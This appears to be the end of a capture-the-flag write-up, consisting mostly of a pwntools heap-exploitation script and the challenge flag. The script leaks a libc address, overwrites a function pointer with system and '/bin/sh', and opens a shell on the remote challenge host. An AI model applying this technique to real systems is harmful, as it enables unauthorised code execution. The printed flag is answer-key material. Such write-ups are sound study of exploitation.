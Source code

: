 ```python
    pc.sendlineafter('>', '4')
    pc.sendlineafter('Enter the index of the message that you wish to edit', str(index))
    pc.sendlineafter('Enter the new message', new_msg)    


def main():
    libc = ELF('./libc-2.23.so')

    pc = remote('stack.overflow.fail', 9004)

    pc.sendlineafter('What is your user id?', str(0x70))

    encrypt(pc, 2, 0x100, 'AAAA')
    encrypt(pc, 2, 0x60, 'BBBB')

    remove(pc, 0)

    # putting libc addresses into msg_ptr
    encrypt(pc, 2, 0, '')

    view(pc)
    for _ in range(11):
        pc.recvline()
    main_arena = u64(bxor(pc.recvline()[12:-1], 0x70).ljust(8, '\x00'))
    libc_base = main_arena - 0x3c4d00
    binsh = libc_base + next(libc.search('/bin/sh'))
    system = libc_base + libc.symbols['system']
    log.success('libc base @ ' + hex(libc_base))

    encrypt(pc, 2, 0x20, 'A' * 0x20)
    remove(pc, 2)
    
    # filling up other info structs which will
    # be allocated tearing the unsorted bin chunk
    encrypt(pc, 3, 0, '')
    encrypt(pc, 3, 0, '')
    encrypt(pc, 3, 0, '')

    # write desired info into 4th chunk
    edit(pc, 2, p64(binsh) + p64(0) + p64(system) + p64(0))
    
    # trigger system("/bin/sh")
    edit(pc, 4, '')

    pc.interactive()


if __name__ == '__main__':
    main()
```

This was a typical heap challenge and I would say this is a medium-level task, but still interesting, thanks admins!

> Flag: utflag{pat1lw1llyw0nkalikesc0de}